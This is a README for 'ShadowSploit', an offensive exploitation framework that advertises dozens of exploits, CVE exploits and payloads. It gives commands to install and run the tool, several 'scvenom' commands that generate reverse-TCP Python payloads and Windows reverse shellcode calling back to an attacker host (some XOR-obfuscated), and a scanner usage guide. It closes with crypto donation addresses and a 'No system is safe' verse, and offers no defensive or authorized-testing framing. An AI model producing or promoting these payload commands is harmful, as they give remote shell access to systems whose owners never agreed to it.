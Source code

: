 ![ShadowSploit Icon](/images/shadowsploit_icon.png)

see the older versions in our old github : https://github.com/singlecore06483/sc_framework

UPDATES
-

new updates and features in ShadowSploit v2.1:

- Added 15 Exploits
- Upadted GUI
- removed scshellcodegenerator and scpgenerator and change them to scvenom
- Added 6 Auxiliary
- Added 22 Payloads
- Added 2 CVE Exploits
- Added 5 Buffer Overflow
- Added some banners
- Updated the CLI
- Fixed bugs and errors


ShadowSploit
-

this tool uses 99 exploits and 27 cve exploits and 53 payloads and 46 auxiliary exploits.
which some of the exploit like `ssh-loign-test, PDF-exploit, and more 97 exploits`.

How this tool works?
-

this tool created with python3, first you need to install `requirements.txt` libarys to run this tool
by typing :

```
pip install -r requirements.txt
```

then run it by typing :

```
python scconsole.py
```
or
```
python3 scconsole.py
```


-------------------------------------------------------------------------

ShadowSploit GUI
-


The `GUI` version of scconsole, that created with python, the `GUI` version haves `40 exploits`.

to run the tool, you need to run it as root with sudo, here is the command :

```
sudo python scconsolegui.py
```

and pop up a new window that you can use scconsole as GUI version.

-------------------------------------------------------------------------

SCVENOM
-

The scvenom is a payload and shellcode generator for shadowsploit.

you can generate windows/mac/linux shellcodes and payloads.

here some examples of scvenom : 

to see the usable payloads:
```
./scvenom.py --list
```

to generate payload:
```
./scvenom.py -p python/reverse_tcp LHOST=10.2.3.4 LPORT=4444 -f py -o payload.py --one-liner

./scvenom.py -p python/reverse_tcp LHOST=10.2.3.4 LPORT=4444 -o payload.py

./scvenom.py -p python/reverse_tcp LHOST=10.2.3.4 LPORT=4444 -o payload.py --xor 255
```

to generate shellcode:
```
./scvenom -p windows/reverse_shellcode LHOST=10.2.3.4 LPORT=4444 -o shellcode.bin
```


-------------------------------------------------------------------------

How to use db_scscanner in scconsole ?
-

so to use `db_scscanner`, first you need to run scconsole by typing : 

```
python scconsole.py
```

then use these commands : 

```
db_scscanner
db_scscanner -h
db_scscanner -o
db_scscanner -p
db_scscanner -w
db_scscanner results
db_scscanner -n-scan
```

then when you choose your option and type one of these commands, that will ask you for target, ports or port, website, etc.

-------------------------------------------------------------------------

Supported platforms (as attacker):
-

- GNU/Linux
- MAC OS X


Supported platforms (as target):
-

- Windows
- Linux
- Mac
- server
- website

-------------------------------------------------------------------------


Donate
-

BTC: `3J9EmswaqAkzDUz8693MVJ4CqKXzTCM2Vq`

Eth: `0x055aa3c526ad33caec2d1ffbf686ca60071dfe81`

FLO: `FIO6CkKECn61WFE8vbhfQFzuHrk7K9g23NmC8g45nG4kisrbypBHi`


--------------------------------------------------------------------------


```
Malevolent code crawled through cybernetic veins,
consuming every digital defence mechanism In Darkness,
Alone.
No system is safe.
--Shadow Crawler--
```

